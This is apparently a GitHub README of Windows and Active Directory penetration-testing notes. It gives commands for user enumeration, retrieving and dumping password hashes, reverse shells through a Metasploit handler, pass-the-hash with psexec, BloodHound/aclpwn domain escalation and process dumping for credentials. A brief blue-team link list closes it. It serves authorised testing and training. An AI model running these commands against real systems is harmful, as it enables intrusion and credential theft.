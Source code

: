 # WINDOWS Pen Testing scripts and tutorials

## Recon

Enum4Linux will get you Domains, Workgroups, Usernames, etc.
```bash
enum4linux -a [-u USER -p PASS] IP
```

Impackets lookupsid will give you also the users if enum4linux may not work properly

```bash
lookupsid.py IP
```

## Get User Password Hashes

Impackets GetNPUsers tries several attacks to retrieve password hashes

```bash
GetNPUsers.py IP
```

Further on Impackets secretdump can retrieve secret password hashes which only privileged accounts can retrieve, or due to a misconfiguration.
```bash
secretdump.py DOMAIN/USER:PWD@IP 
```


## WinRM 

### File transfer

For the winrm service use winrm/wirnmcp.rb to upload and download files

```bash
ruby winrm/winrmcp.rb IP USER PASSWORD -u LOCAL_FILES+ REMOTE_FOLDER
```

```bash
ruby ./winrm/winrm.rb IP USER PASSWORD -d REMOTE_FILES+ LOCAL_FOLDER
```

### Shell

use evil-winrm for a shell. 

If something wont work execute 

```bash
bash ./msf/create-reverse-shell.sh LOCAL_IP LOCAL_PORT 
```

and execute it on the remote server

while having the following session open at metasploit

```msf
msfconsole

use exploit/multi/handler
set LPORT LOCAL_PORT
set LHOST LOCAL_IP
exploit -j -z 
```

if the meterpreter session is opened in the msfconsole:

```
sessions -i 0
```

to get to the first created session


## SAMBA

```bash
smbclient -L //IP/ 
```

just hit enter for anonymous access. 
You could also try to access it anonymously with

```bash
smbclient //IP/SHARE 
```

Sometimes you can access the SYSVOL share, if it is not cleaned up it may contain some xml files in the Policy folder which contains password hashes


## Kerberos

Checkout Impacket scripts

if you have access rights on the machine you also can use mimikatz. 
Upload it and try it out. 


## BloodHound & aclpwn

Using BloodHound you can generate a path from owned principals to admin domains if an LDAP server is running

1. Upload SharpHound.ps1
2. Exec PS `C:\..\ Import-Module .\SharpHound.ps1`
3. Exec PS `C:\..\ Invoke-BloodHound -CollectionMethod All -DomainController DC -LdapUser USER -LdapPass PASSWORD -IgnoreLdapCert`
4. Download XYZ-BloodHound.zip
5. start neo4j `neo4j console &`
6. start BH `bloodhound`
7. upload zip file
8. use aclpwn `aclpwn -f USER -ft User -t ADMIN_DOMAIN -d DOMAIN -du neo4j -dp neo4jpass -s IP -u USER -p PASSWORD`
9. if successfull you can now use Impackets secretdump.py 'secretsdump.py DOMAIN/USER:PASSWORD@IP'
9.1 or use mimikatz 


## Dump Processes

Get ProcDump https://docs.microsoft.com/en-us/sysinternals/downloads/procdump and upload it to the windows server.
Afterwards you can dump any process by using

```bash
.\procdump64.exe -ma PID DUMP_FILE
```

Download it and analyze it. If Firefox is running, it might be possible that passwods are send plain text. 

## Shells

Next to evil-winrm, meterpreter shells and reverse shells you can get access using impackets psexec.py 

```bash
psexec.py DOMAIN/USER:PASSWORD@IP 
```

or if you cannot crack the NTLM Hash you can access directly using the hash with the pass the hash method (https://en.wikipedia.org/wiki/Pass_the_hash)

```bash
psexec.py -hashes LMHASH:NTHASH DOMAIN/USER@IP
```

## Privilege Escalation

## JuicyPotato 

Use JuicyPotato if you have a service account 

check priveleges in a powershell command with

```
whoami /priv
```

if Impersonate or WithToken is enabled. escalate

### WinPEAS

Use WinPEAS for enumeration

### Using AlwaysInstalledElevated misconfig

https://steflan-security.com/windows-privilege-escalation-alwaysinstallelevated-policy/

### Mimikatz
Mimikatz has several options, from exploiting kerberos over pass the hash.
Look at https://github.com/gentilkiwi/mimikatz/wiki

### BloodHound and aclpwn 
see above

### Enumeration (not windows specific)

#### Dump Processes
see above

#### MITM
Getting a local mitm using a proxy for example, we can read traffic and ideally getting passwords in clear. 
Use own adjusted scripts depending on the software. 

#### enumerate whats on a machine
see https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/ for several PS commands to check the server for services, files etc.

#### CVEs 
Check for old CVEs with Sherlocks PowerShell script
upload Sherlock.ps1 to the server

```bash
Import-Module .\Sherlock.ps1
```

or use the newer version Watson.
upload the Watson_Net45.exe or Watson_Net35.exe to the server and execute

```bash 
.\Watson_Net45.exe 
```

# Blue Team

 https://redcanary.com/blog/investigating-powershell-attacks/ 
 
 ViperMonkey for vba analazing
